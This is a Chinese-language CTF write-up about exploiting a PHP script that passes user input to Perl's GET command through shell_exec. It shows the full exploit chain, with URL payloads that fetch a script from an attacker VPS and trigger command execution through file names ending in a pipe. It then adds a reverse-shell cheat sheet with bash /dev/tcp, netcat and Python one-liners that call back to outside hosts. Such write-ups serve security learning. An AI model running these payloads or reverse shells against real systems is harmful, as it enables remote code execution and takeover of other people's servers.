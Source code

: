```yaml
---
title: GET命令漏洞
date: 2018-09-30 17:26:17
categories: ctf
---
```


# 0x00 题目描述

php的 `shell_exec` 执行了 `GET` 命令。   
GET是Lib for WWW in Perl中的命令 目的是模拟http的GET请求

```php
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($sandbox); 
    @chdir($sandbox); 

    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
    $info = pathinfo($_GET["filename"]); 
    $dir  = str_replace(".", "", basename($info["dirname"])); 
    @mkdir($dir); 
    @chdir($dir); 
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__);
```

# 0x01 分析
最主要就是`$data = shell_exec("GET " . escapeshellarg($_GET["url"]));`

漏洞在于 GET 可以执行命令。
```bash
touch 'ls|' # 此命令我只在vps上执行成功。而 kali和ubuntu18创建后的内容均不可以。
```
vps:  
![image](CC1DB461E0374CD282ADDED8FF873BBF)
ubuntu与kali(多了2个单引号):  
![image](15AEAB38D73045658EB89AD598F4F116)  
当创建好文件后，使用如下命令就可以执行。  
```bash
GET 'file:ls|'
```
![image](2CD36734625743E29B20B19A247196C4)  
而刚才多了单引号的则不可以。
![image](FEC1A9D0DC854EBCB410C2DC8A6322C2)  

# 0x02 解决
所以需要在服务端的执行一个bash脚本用来反弹shell。  
在服务端的执行
```bash
GET 'file:bash a|'
```
所以需要在服务器创建**2**个文件。一个名字是`bash a|`，另一个是`a|`。其中`a|`中是要执行的脚本。  

**payload**为：
```bash
?url=http://yourvps/a.txt&filename=a
?url=&filename=bash a|
?url=file:bash a|&filename=xxx
```

**a.txt**的内容是：
```bash
bash -i >& /dev/tcp/your_vps/port 0<&1 2>&1
```

# 0x03 反弹脚本

## bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
`bash -i`是打开一个交互的bash.  
`/dev/tcp/`是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在`/dev/udp/`  

要想了解`>&`和`0>&1`，首先我们要先了解一下Linux文件描述符和重定向。   
`>&`或者`&>`将错误和输出均重定向。  


## NetCat
如果目标主机支持“-e”选项的话，我们就可以直接用
```bash
nc -e /bin/bash 10.42.0.1 1234
```
否则，现在自己的vps上监听两个端口：  
```bash
nc -l -p 1234 -vv
nc -l -p 4321 -vv
```
然后在目标主机上执行以下命令： 
```bash
nc  10.42.0.1 1234  |  /bin/bash  |  nc 10.42.0.1 4321
```
## python
```bash
python -c" 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.42.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);"
```

